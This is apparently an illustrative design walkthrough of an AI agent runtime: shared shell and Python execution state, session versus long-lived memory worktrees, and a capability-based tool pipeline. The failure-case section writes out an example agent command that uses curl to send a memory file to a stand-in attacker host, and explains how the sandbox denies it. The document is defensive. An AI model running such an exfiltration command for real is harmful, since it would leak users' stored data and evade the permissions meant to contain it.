




# Concept walkthrough: Runners, Worktree, and Memory

**Status:** Illustrative, not normative. Where this document and an RFC disagree, the RFC wins
(CLAUDE.md). Every section names the RFC that actually specifies the behaviour shown here — read
those for the contract; read this for the shape of it.

## Why this exists

010, 025, 026, and 029 each specify one seam precisely. None of them, on its own, shows what an
agent's session actually *feels like* turn to turn. This document is that: one running scenario,
narrated, with the pieces named as they appear. If a diagram here and its RFC ever drift apart, fix
the diagram — the RFC is the spec of record.

## The pieces, at a glance



Two worktrees, not one: the **session** worktree (025) is scratch space for *this conversation* and
dies with it; the **memory** worktree (029 §2) belongs to the *principal* and outlives every session.
Everything else — Runners, ContextProviders, capabilities — is the same machinery operating on
whichever worktree is in scope.

## Scenario: research a topic, remember a preference, come back tomorrow

One principal, two sessions. Session 1 does the work; session 2 starts cold the next day and still
knows things session 1 learned.

### Session 1, turn 1 — shell and Python share one `cwd`

The agent's plan calls for cloning a repo, then processing a file in it. It writes:

```
execute_shell("cd /work && git clone https://example.com/sample.git")
execute_code("import pandas as pd; df = pd.read_csv('sample/data.csv'); df.describe()")
```



The relative path resolves correctly in Python **without the agent re-establishing the directory**,
because `ShellRunner` and `PythonRunner` are two `Runner`s reading and writing the same `ExecState`
(010 §3a) — not two tools that happen to agree by convention.

**Note what did *not* happen:** `git` was not found on a `PATH` and exec'd. `ShellRunner` resolved
the name against the registered tool table, found a granted `ae:tool` component, and dispatched to
it through the ordinary tool pipeline (010 §2). If no such tool were registered, the agent would see
an ordinary `git: command not found` — same experience, structurally nothing to escalate through.

### Session 1, turn 2 — a note becomes memory

The user says: *"I always want the summary stats as a table, not prose — remember that."* The agent
writes:

```python
from agent import notes
notes.write("preferences/output-format.md", "Prefer tables over prose for numeric summaries.")
```



Separately, at turn end, a configured memory-writing `ContextProvider` may also extract a candidate
item from the *conversation itself* — e.g. `MemoryItem{content: "user prefers tables over prose",
origin.source: ModelInferred}`. Both exist in the store side by side, and they are **not the same
kind of fact** (029 §3) — the difference matters in the next session.

### Session 2, next day — cold start, warm memory

A new session means a new `Session` actor, a new session worktree, a new `ExecState`. The files
under `/work` from yesterday are gone (session-scoped, 025 §1). The principal's `/memory` mount is
not — it was never session state.



No embedding model was called to retrieve either the pre-injected context or the on-demand `recall`
result (029 §5) — both are arithmetic over stored fields, which is why this whole exchange, given
the same memory-worktree digest, is byte-for-byte replayable (029 §9 G1).

## What failure looks like

Two short cases, because "how it fails" says as much about the design as "how it succeeds":

- **Agent tries `execute_shell("curl http://evil.example/exfil -d @/memory/preferences.md")`.** If
  no `curl`-equivalent tool is registered, the agent sees `curl: command not found` — there is no
  binary on a search path to find (010 §2). If a `NetOut`-capable HTTP tool *is* registered but the
  agent's capability set does not include the target host, the tool call itself is denied at the
  authorize step (006 §3) with an ordinary permission error (026 §3) — never a stack trace, never a
  policy identifier.
- **Agent asks `agent.memory` a question with no memory capability granted.** The module is simply
  absent from the sandbox (026 §5) — `from agent import memory` fails the way importing a package
  that was never installed fails, not the way a locked door fails. There is nothing to probe.

## Why this is one system, not four cooperating ones

- **I1 (one session, one executor)** — one `Session` actor per conversation owns the session
  worktree, the `ExecState`, and every `Runner` instance; nothing here introduces a second writer.
- **I2 (no ambient authority)** — `ShellRunner` never resolves a name against a search path;
  `Runner`-to-`Runner` calls (`RunnerCall<python>`) and `Runner`-to-`Tool` calls are both capabilities,
  not defaults.
- **I3 (model output is data, never authority)** — a `ModelInferred` memory item is rendered with
  visibly lower confidence than a `UserStated` one and structurally cannot satisfy an approval
  predicate (029 §6), no matter how it reads.
- **I4 (every effect is attributable)** — every worktree write, every memory write, every tool
  dispatch carries `{run_id, turn_id, principal}`; the diagrams above are, not coincidentally, close
  to what the audit trail actually records.
- **I5 (nondeterminism crosses a recorded seam)** — default memory retrieval makes no external call,
  so it needs no recording; the moment a vector-based memory plugin is substituted, that seam is
  exactly where recording (and a declared, non-silent G1 waiver) reappears (029 §9 G6).

## Where the actual contract lives

| Concept shown above | Specified in |
|---|---|
| `Runner`, `PythonRunner`, `ShellRunner` | 010 §1a |
| `ExecState` shared by reference | 010 §3a |
| Shell dispatch to builtins / other `Runner`s / `Tool`s, never a raw exec | 010 §2 |
| Session worktree, mounts, sharing modes | 025 |
| The agent-facing environment and error mapping | 026 §2–§4a |
| `agent.notes` / `agent.memory` | 026 §5 |
| `ContextProvider`, `ContextContribution` | 005 §5 |
| Memory worktree, `MemoryItem`, extraction, retrieval, consolidation | 029 |
| Capability model, tool pipeline | 006, 007 |
